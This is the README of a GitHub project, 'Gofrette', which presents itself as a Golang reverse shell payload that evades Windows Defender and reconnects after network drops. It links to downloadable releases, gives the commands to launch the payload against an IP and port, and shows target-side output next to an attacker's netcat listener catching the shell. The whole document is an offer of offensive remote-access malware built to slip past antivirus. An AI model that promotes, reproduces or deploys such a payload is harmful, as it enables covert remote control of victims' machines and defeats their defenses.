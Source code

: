 
<p align="center">
  <a href="" rel="noopener">
 <img width=200px height=200px src="https://cdn-icons-png.flaticon.com/512/1076/1076284.png"> </a>
</p>


# Gofrette

Gofrette is a reverse shell payload developed in Golang that bypasses Windows defender (18.2.2022). It also supports network cuts.  



## Releases
https://github.com/Enelg52/Gofrette/releases

## Usage

```bash
.\gofrette.exe -a [ipadress] -p [port]

.\127.0.0.1_1234.exe
```

## Example
#### Target :
```raw
PS C:\Users\enelg> go run .\gofrette.exe -a 127.0.0.1 -p 1234
[-] Trying to connect to 127.0.0.1:1234
[+] Connected... :)
[-] Closed... :(
[-] Lost connection
[*] Trying to reconnect
[+] Connected... :)
```
```
PS C:\Users\enelg> .\127.0.0.1_1234
[-] Trying to connect to 127.0.0.1:1234
[+] Connected... :)
```
#### Attacker :
```raw
❯ rlwrap nc -lvnp 1234
Listening on 0.0.0.0 1234
Connection received on 127.0.0.1 37458
C:\Users\enelg>
```


## Contributing
Pull requests are welcome !
